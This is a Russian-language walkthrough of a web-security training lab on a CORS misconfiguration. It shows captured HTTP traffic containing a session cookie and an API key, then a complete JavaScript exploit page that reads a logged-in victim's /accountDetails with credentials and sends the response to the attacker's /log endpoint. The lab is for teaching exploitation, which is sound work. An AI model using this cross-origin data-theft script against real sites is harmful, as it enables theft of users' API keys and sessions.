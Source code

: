 Этот веб-сайт имеет небезопасную конфигурацию CORS, поскольку он доверяет всем источникам.

Чтобы решить лабораторную работу, создайте JavaScript, который использует CORS для получения ключа API администратора и загрузки кода на ваш сервер эксплойтов. Лабораторная работа будет решена, когда вы успешно отправите ключ API администратора.

Вы можете войти в свою учетную запись, используя следующие учетные данные:`wiener:peter`

## Дано

- доверяет всем источникам.
- создайте JavaScript, который использует CORS для получения ключа API администратора
- учетные данные:`wiener:peter`

## Задача

- получить api ключ администратора

# Решение

1. В запросе
```
GET /accountDetails HTTP/2
Host: 0af3006a03fca143804d53e4009300d6.web-security-academy.net
Cookie: session=wCOxTS6EjZ4kuddboXi44rUWzcKQgWY2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0af3006a03fca143804d53e4009300d6.web-security-academy.net/my-account?id=wiener
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Sec-Gpc: 1
Priority: u=4
Te: trailers
```
Мы получаем ответ
```
HTTP/2 200 OK
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "hjM1WcEfugRXpRQzIRF77FNhSJpKVxQz",
  "sessions": [
    "wCOxTS6EjZ4kuddboXi44rUWzcKQgWY2"
  ]
}
```
Access-Control-Allow-Credentials: true - указывает что куки будут отправлены

2. Добавляем Origin наш и тестируем
Ответ
```
HTTP/2 200 OK
Access-Control-Allow-Origin: https://hosts.com
Access-Control-Allow-Credentials: true
```

3. На нашем сервере добавляем скрипт
```
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
            var xhr = new XMLHttpRequest();
            var url = "https://domain-name.com"
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```

- Создается объект `XMLHttpRequest`, который используется для выполнения HTTP-запросов на сервер.
```
var xhr = new XMLHttpRequest(); 
```

- Переменная `url` содержит адрес целевого сайта, к которому будет отправлен запрос.
```
var url = "https://0af3006a03fca143804d53e4009300d6.web-security-academy.net.com"
```

- Обработчик события `onreadystatechange`:
```
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch("/log?key=" + xhr.responseText);
    }
};
```
- Устанавливается обработчик события `onreadystatechange`, который срабатывает при изменении состояния запроса (`readyState`).

- Когда запрос завершается (`readyState == XMLHttpRequest.DONE`), выполняется следующий код:
    - Данные, полученные от сервера (`xhr.responseText`), передаются на другой URL с помощью функции `fetch`.
    - В данном случае данные отправляются на `/log?key=`, где `key` — это параметр, содержащий ответ сервера.

- Отправка GET-запроса:
```
xhr.open('GET', url + "/accountDetails", true);
xhr.withCredentials = true;
xhr.send(null);
```

- Открывается GET-запрос к URL `https://0af3006a03fca143804d53e4009300d6.web-security-academy.net.com/accountDetails`.

- Параметр `withCredentials = true` указывает браузеру включить куки и другие учетные данные (если пользователь авторизован на целевом сайте) в запрос.

- Запрос отправляется с помощью `xhr.send(null)`.

